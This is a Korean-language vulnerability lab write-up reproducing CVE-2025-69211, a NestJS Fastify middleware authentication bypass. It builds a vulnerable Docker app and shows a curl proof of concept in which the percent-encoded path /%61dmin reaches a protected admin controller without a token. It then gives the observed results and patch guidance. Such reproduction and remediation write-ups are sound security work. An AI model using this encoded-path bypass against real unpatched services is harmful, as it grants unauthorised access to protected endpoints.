



# CVE-2025-69211: NestJS Fastify 미들웨어 인증 우회

## 1. 취약점 요약

CVE-2025-69211은 `@nestjs/platform-fastify`를 사용하는 NestJS 애플리케이션에서 발생하는 미들웨어 우회 취약점이다. 보안 미들웨어가 특정 경로에 적용되어 있어도 공격자가 URL의 일부 문자를 퍼센트 인코딩하면 미들웨어를 건너뛰고 보호된 컨트롤러에 접근할 수 있다.

이 실습에서는 취약한 `@nestjs/platform-fastify@11.1.9`를 사용한다. 인증되지 않은 요청이 `/admin` 경로에 접근하지 못하도록 미들웨어를 적용한 뒤, `a`를 `%61`로 인코딩한 `/%61dmin` 요청으로 인증을 우회한다.

- [NestJS Security Advisory GHSA-8wpr-639p-ccrj](https://github.com/nestjs/nest/security/advisories/GHSA-8wpr-639p-ccrj)
- [NVD CVE-2025-69211](https://nvd.nist.gov/vuln/detail/CVE-2025-69211)

## 2. 환경 구성

| 구성 요소 | 버전 및 역할 |
| --- | --- |
| Node.js | `node:22-alpine` |
| NestJS | `11.1.9` |
| Fastify Adapter | `@nestjs/platform-fastify@11.1.9` |
| Docker Compose | 이미지 빌드 및 컨테이너 실행 |
| 서비스 포트 | `3000` |

아래 명령 하나로 이미지를 빌드하고 취약 서버를 실행한다.

```bash
cd CVE-2025-69211
docker compose up --build -d
```

컨테이너 상태는 다음 명령으로 확인할 수 있다.

```bash
docker compose ps
```

애플리케이션은 `http://localhost:3000`에서 실행된다.

## 3. 취약 조건

다음 조건을 모두 만족할 때 취약점이 발생할 수 있다.

1. NestJS 애플리케이션이 `@nestjs/platform-fastify`의 취약 버전을 사용한다.
2. `MiddlewareConsumer` 또는 `app.use()`로 특정 경로에 보안 미들웨어를 적용한다.
3. 인증이나 권한 검사를 해당 미들웨어에 의존한다.
4. 외부 사용자가 인코딩된 URL 경로로 요청할 수 있다.

실습 환경은 `/admin` 경로에 다음 인증 미들웨어를 적용한다.

```typescript
consumer.apply(AuthMiddleware).forRoutes('admin');
```

미들웨어는 요청에 `x-auth-token: secret` 헤더가 없으면 `401 Unauthorized`를 반환한다.

## 4. 재현 절차

### 4.1 인증되지 않은 정상 요청

```bash
curl -i http://localhost:3000/admin
```

인증 헤더가 없으므로 다음과 같이 차단된다.

```http
HTTP/1.1 401 Unauthorized

{"statusCode":401,"message":"missing x-auth-token"}
```



### 4.2 정상 인증 요청

```bash
curl -i -H "x-auth-token: secret" http://localhost:3000/admin
```

올바른 인증 헤더가 있으므로 관리자 컨트롤러가 응답한다.

```http
HTTP/1.1 200 OK

{"message":"admin panel","authenticated":true}
```



## 5. PoC 코드

취약점을 재현하는 PoC는 다음 한 줄이다. `--path-as-is` 옵션은 curl이 인코딩된 요청 경로를 변경하지 않고 그대로 전송하게 한다.

```bash
curl -i --path-as-is http://localhost:3000/%61dmin
```

인증 헤더가 없지만 미들웨어를 우회하고 `/admin` 컨트롤러에 도달한다.

```http
HTTP/1.1 200 OK

{"message":"admin panel","authenticated":false}
```

정상 `/admin` 요청이 `401 Unauthorized`를 반환하는 것과 달리, 인코딩된 `/%61dmin` 요청이 `200 OK`와 `admin panel`을 반환하면 취약점 재현에 성공한 것이다.



## 6. 실행 결과

제출 파일만 있는 깨끗한 환경에서 Docker 이미지를 다시 빌드한 후 요청을 전송했다.

| 요청 | 인증 헤더 | HTTP 상태 | 결과 |
| --- | --- | --- | --- |
| `/admin` | 없음 | `401 Unauthorized` | 접근 차단 |
| `/admin` | `x-auth-token: secret` | `200 OK` | 정상 접근 |
| `/%61dmin` | 없음 | `200 OK` | 인증 우회 성공 |

Docker 로그에서도 일반 요청과 우회 요청의 상태 코드 차이를 확인했다.

```text
GET /admin   -> 401
GET /%61dmin -> 200
```

## 7. 대응 방안

`@nestjs/platform-fastify`를 취약점이 수정된 `11.1.11` 이상으로 업데이트한다. NestJS 관련 패키지는 가능한 한 동일한 패치 버전으로 맞춘다.

```bash
npm install @nestjs/common@^11.1.11 \
  @nestjs/core@^11.1.11 \
  @nestjs/platform-fastify@^11.1.11
```

중요한 인증 및 권한 검사를 경로 기반 미들웨어에만 의존하지 않고 NestJS Guard 또는 컨트롤러 계층에서도 검증한다. 프록시와 애플리케이션의 URL 정규화 정책을 일관되게 적용하고, 보호된 경로를 퍼센트 인코딩한 비정상 요청을 기록하고 탐지한다.
